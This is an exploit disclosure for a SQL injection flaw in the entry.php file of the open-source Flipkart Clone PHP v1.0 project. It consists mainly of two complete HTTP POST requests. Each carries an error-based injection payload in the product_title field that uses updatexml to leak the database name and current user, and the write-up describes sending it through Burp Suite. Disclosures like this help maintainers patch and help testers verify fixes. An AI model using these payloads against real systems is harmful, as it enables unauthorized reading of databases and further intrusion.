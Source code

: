 # Flipkart Clone PHP v1.0 - SQL injection

#### Exploit Title: Flipkart Clone PHP v1.0 - SQL injection
#### Date: 08/28/2022
#### Exploit Author: Cosemz
#### Software Link: https://github.com/jigar-sable/Flipkart-Clone-PHP
#### Version: 1.0
#### Tested on: Apache2.4.39 Mysql5.7.26 PHP7.3.4
#### Description：
*SQL injection is a code injection technique used to attack
data-driven applications, in which malicious SQL statements are
inserted into an entry field for execution (e.g. to dump the database
contents to the attacker). wikipedia*

Vulnerability File: /Flipkart-Clone-PHP-main/entry.php

Payload:
```
POST /Flipkart-Clone-PHP-main/entry.php HTTP/1.1
Host: 127.0.0.1
Content-Length: 730
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://127.0.0.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.99 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://127.0.0.1/Flipkart-Clone-PHP-main/entry.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

product_title=12312123' and updatexml(1,concat(0x7e,database()),0) and '
&product_rating_star_count=11231231123&product_img=123123123&product_img_alt=12312312&product_review_count=123123&product_price=12312312312&product_cutted_price=123123123&product_seller=13123123&product_model=123123123&product_rating_count=12312312&product_brand_logo=12312312&product_desc=123123123&product_color=123123123&product_sales_package=123123123&product_warranty_summary=1231231231&product_domestic_warranty=123123123&product_warranty_covered=123123123&product_warranty_ncovered=123123123&product_generic=123123123&product_manf=123123123&product_origin=123123123&product_highlights=123123123&product_color1=1231231231&product_color2=2312312&submit=
```

Example：

1.Visit Url.

http://127.0.0.1/Flipkart-Clone-PHP-main/entry.php

![1.png](./1.PNG)



2.Submit payload using burp suite to get database name and current user.

```
POST /Flipkart-Clone-PHP-main/entry.php HTTP/1.1
Host: 127.0.0.1
Content-Length: 730
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://127.0.0.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.99 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://127.0.0.1/Flipkart-Clone-PHP-main/entry.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

product_title=12312123' and updatexml(1,concat(0x7e,database(),0x7e,user()),0) and '
&product_rating_star_count=11231231123&product_img=123123123&product_img_alt=12312312&product_review_count=123123&product_price=12312312312&product_cutted_price=123123123&product_seller=13123123&product_model=123123123&product_rating_count=12312312&product_brand_logo=12312312&product_desc=123123123&product_color=123123123&product_sales_package=123123123&product_warranty_summary=1231231231&product_domestic_warranty=123123123&product_warranty_covered=123123123&product_warranty_ncovered=123123123&product_generic=123123123&product_manf=123123123&product_origin=123123123&product_highlights=123123123&product_color1=1231231231&product_color2=2312312&submit=
```
![2.png](./2.PNG)





